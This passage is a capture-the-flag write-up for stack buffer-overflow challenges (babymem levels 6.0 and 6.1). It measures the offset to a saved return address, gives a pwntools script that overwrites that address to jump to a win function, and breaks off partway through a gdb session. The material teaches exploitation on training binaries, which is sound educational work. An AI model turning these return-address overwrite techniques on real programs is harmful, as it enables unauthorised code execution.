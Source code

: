 In order to skip the check, we have to set the return address to `0x00000000004016e0`.

Before we do that we need to know the distance between the start of the buffer and location of return address.

```
Buffer:                           Random bytes:                     Return address:

00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00          8e 1e 40 00 00 00 00 00
00 00 00 00 00 00 00 00           80 87 fb 14 fe 7f 00 00
00 00 00 00 00 00 00 00           e0 97 fb 14 fe 7f 00 00
00 00 00 00 00 00 00 00           
```

As we can see the distance is `56` bytes. This means we need `56` bytes of padding in order to overwrite the return address.

```python
from pwn import *

padding = b'A' * 56
payload = padding + p64(0x00000000004016e0)

p = process('/challenge/babymem_level6.0')
p.recvuntil('size:')
p.sendline('500')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

&nbsp;

## level 6.1

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass another check designed to prevent you from doing so!

In order to create a payload we need to know three things:

* [ ] Location of buffer.
* [ ] Location of stored return address.
* [ ] Address of win function.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
